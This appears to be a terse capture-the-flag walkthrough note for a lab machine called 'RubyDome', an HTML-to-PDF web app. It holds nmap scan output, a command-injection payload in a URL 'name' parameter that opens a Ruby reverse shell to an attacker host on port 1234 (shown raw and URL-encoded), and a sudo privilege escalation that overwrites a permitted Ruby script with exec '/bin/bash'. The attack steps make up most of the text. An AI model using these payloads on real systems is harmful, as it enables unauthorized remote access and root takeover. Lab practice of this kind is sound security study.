

____
> [!info]
IP=192.168.190.22

# Nmap
|PORT|STATE|SERVICE|
|---|---|---|
|22/tcp|open|ssh|
|3000/tcp |open|ppp |
```python

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
3000/tcp open  http    WEBrick httpd 1.7.0 (Ruby 3.0.2 (2021-07-07))
|_http-server-header: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)
|_http-title: RubyDome HTML to PDF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


# 3000 




```bash
url=http://192.168.45.180:80/?name=%20`ruby -rsocket -e 'spawn("sh",[:in,:out,:err]=>TCPSocket.new("192.168.45.180", 1234))'`
```

url encode

```bash
http%3A%2F%2F192.168.45.180%3A80%2F%3Fname%3D%2520%60ruby%20-rsocket%20-e%20%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22192.168.45.180%22%2C%201234%29%29%27%60
```

# PrivEsc
```txt
User andrew may run the following commands on rubydome:
    (ALL) NOPASSWD: /usr/bin/ruby /home/andrew/app/app.rb
```


```bash
rm/home/andrew/app/app.rb
nano /home/andrew/app/app.rb
```

```rb
exec "/bin/bash"
```

```bash
sudo /usr/bin/ruby /home/andrew/app/app.rb
```
